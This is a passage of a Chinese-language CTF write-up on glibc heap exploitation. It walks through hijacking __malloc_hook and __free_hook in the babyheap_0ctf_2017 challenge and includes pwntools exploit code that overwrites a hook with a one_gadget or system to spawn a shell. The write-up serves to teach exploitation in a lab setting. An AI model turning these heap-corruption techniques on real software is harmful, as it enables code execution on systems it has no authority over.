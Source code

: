 ```python
	alloc(0x60)#4
	
	alloc(0x60) #fake
	one=base+0xf1207
	realloc_hook=0x84710+base
	fill('6',p8(0)*3+p64(0)+p64(one)+p64(realloc_hook))
	#gdb.attach(p)
	alloc(0x60)

fast()
leak()
pwn()
p.interactive()
```



## __free_hook

`__free_hook`的利用有所不同，应为附近一大片都没有可以利用的字节。但是如果可以攻击main_arena,篡改top到`__free_hook`之前，可以通过分配chunk来覆盖劫持`__free_hook`。以babyheap_0ctf_2017题目来分析：

同过gdb，我们可以看到，`main_arena`与`__malloc_hook`是非常接近的。

![image-20210315205920462](image-20210315205920462.png)

接着就是top地址的问题。top地址指向的是top chunk 的地址。

![image-20210315211731514](image-20210315211731514.png)

我们可以看到现在top chunk 大小为0x20e61。

![image-20210315211541654](image-20210315211541654.png)

而通过在遍历`__free_hook`附近大于0x20e61的字节就只有`__free_hook-0xb58`处

![image-20210315212414978](image-20210315212414978.png)

所以我们覆盖top地址到`__free_hook-0xb58`处，然后创造chunk使最后一个能覆盖到free_hook,并将free_hook写入system的值.再在一个chunk里写入`bin/sh`，再free ta。

![image-20210315213511550](image-20210315213511550.png)



![image-20210315213300949](image-20210315213300949.png)

exp如下：

```python
from pwn import *

e=ELF('./babyheap')
p=process('./babyheap')
#p=remote('node3.buuoj.cn',26886)
#process('./babyheap')


def alloc(size):
	p.sendline('1')
	p.sendline(str(size))

def fill(num,text):
	p.sendline('2')
	p.sendline(str(num))
	p.sendline(str(len(text)))
	p.sendline(str(text))
```